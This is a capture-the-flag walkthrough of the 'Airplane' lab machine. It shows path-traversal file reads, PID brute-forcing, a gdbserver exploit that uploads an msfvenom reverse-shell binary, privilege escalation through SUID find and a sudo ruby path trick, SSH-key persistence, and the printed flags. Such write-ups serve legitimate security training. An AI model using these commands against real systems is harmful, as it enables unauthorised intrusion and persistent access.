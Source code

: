 ```yaml
---
sticker: emoji//2708-fe0f
---
```


# AIRPLANE

## ENUMERATION

***

### OPEN PORTS

***

| PORT | SERVICE |
| ---- | ------- |
| 22   | SSH     |
| 6048 | X11?    |
| 8000 | HTTP    |

## RECONNAISSANCE

***

We need to add `airplane.thm` to `/etc/hosts`:

```bash
echo '10.10.62.55 airplane.thm' | sudo tee -a /etc/hosts
```

Once we enter the website, we can notice the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250422135925.png)

The url seems suspicious, it seems as it could be vulnerable to LFI, let's try reading `/etc/passwd`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250422140134.png)

As we can see, if we use `path traversal`, we can read `/etc/passwd`, since this server is vulnerable to `LFI`, we can test other stuff, for example, let's try reading `proc/self/environ`:

```
../../../../../proc/self/environ
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250422141057.png)

We get this:

```
LANG=en_US.UTF-8
LC_ADDRESS=tr_TR.UTF-8
LC_IDENTIFICATION=tr_TR.UTF-8
LC_MEASUREMENT=tr_TR.UTF-8
LC_MONETARY=tr_TR.UTF-8
LC_NAME=tr_TR.UTF-8
LC_NUMERIC=tr_TR.UTF-8
LC_PAPER=tr_TR.UTF-8
LC_TELEPHONE=tr_TR.UTF-8
LC_TIME=tr_TR.UTF-8
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
HOME=/home/hudson
LOGNAME=hudson
USER=hudson
SHELL=/bin/bash
INVOCATION_ID=5da2e4a284be419f834a40bee5eeac5f
JOURNAL_STREAM=9:18702
```

Based on that, we can find the `app.py` on `/home/hudson/app/app.py`, let's try reading it:

```
../../../../..//home/hudson/app/app.py
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250422141515.png)

Not much, seems like this only tells us the way it's vulnerable to LFI, but we can keep on digging, for example, we can try reading:

```
proc/self/cmdline
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250422141742.png)

It works, based on the scan, we notice we got something else running on port `6048`, we can use the same technique to visualize what may be running on it, we need to change it to this format:

```
/proc/pid/cmdline
```

`/proc/pid/cmdline` is similar to `/proc/self/cmdline`, but instead of showing the command-line arguments of the **current process** (`self`), it reveals the command-line details of **any running process** on the system, identified by its Process ID (PID). This can be extremely useful for privilege escalation or lateral movement in a CTF or penetration testing scenario.

We need to perform brute force in order to find the different `PIDS`, we can use `ffuf` or in this case, I will use `caido` to perform the brute force, let's start by creating a file with PIDS:

```
seq 1000 > id.txt
```

Now, we can use `caido`'s automate functionality:

![](gitbook/cybersecurity/images/Pasted%20image%2020250422150920.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020250422151532.png)

Once the scan is finished, we can filter in the following way:

```
resp.raw.ncont:"Page" AND resp.raw.cont:"gdb"
```

We can see the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250422151516.png)

Seems like this is running `gdbserver`, let's begin exploitation.

## EXPLOITATION

***

We can use the following information:

**HackTricks**: https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-remote-gdbserver.html#upload-and-execute

We can follow this PoC to get a shell:

```bash
# Trick shared by @B1n4rySh4d0w
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

# Set remote debuger target
target extended-remote 10.10.10.11:1337

# Upload elf file
remote put binary.elf binary.elf

# Set remote executable file
set remote exec-file /home/user/binary.elf

# Execute reverse shell executable
run

# You should get your reverse-shell
```

Nice, let's do it:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf
gdb binary.elf
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250422151922.png)

We get prompted with this, we can now proceed:

```bash
target extended-remote 10.10.251.121:6048
remote put binary.elf /home/hudson/binary.elf
set remote exec-file /home/hudson/binary.elf
nc -lvnp 4444 # Outside of the gdb prompt
run
```

If we do everything correctly, we get the connection on our listener:

![](gitbook/cybersecurity/images/Pasted%20image%2020250422152429.png)

Let's begin privilege escalation.

## PRIVILEGE ESCALATION

***

Let's stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250422152543.png)

Let's use `linpeas` to check any PE vector:

![](gitbook/cybersecurity/images/Pasted%20image%2020250422153011.png)

There we go, we find an interesting `SUID` binary, let's search `GTFOBINS`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250422153104.png)

So, we need to do:

```
/usr/bin/find . -exec /bin/bash -p \; -quit
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250422153149.png)

We escalated to `carlos`, to make the experience more comfortable, we can create a ssh-key and put it in `authorized_keys`:

```
ssh-keygen -t rsa
```

Now, copy the contents:

```
echo "Contents of your key" >> /home/carlos/.ssh/authorized_keys
```

Once we do it, we can go into ssh using:

```
ssh carlos@airplane.thm -i airplane_rsa
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250422153822.png)

Nice, let's look around again, for example, let's check if we got `sudo` privileges:

```
carlos@airplane:~$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```

Let's look up `GTFOBINS`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250422153927.png)

So, in order to get root shell, we can do:

```bash
echo 'exec "/bin/bash"' >> /tmp/privesc.rb
sudo /usr/bin/ruby /root/../tmp/privesc.rb
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250422154046.png)

There we go, we can finally read both flags and finish the CTF:

```
root@airplane:/home/carlos# cat user.txt
eebfca2ca5a2b8a56c46c781aeea7562
```

```
root@airplane:/home/carlos# cat /root/root.txt
190dcbeb688ce5fe029f26a1e5fce002
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250422154148.png)
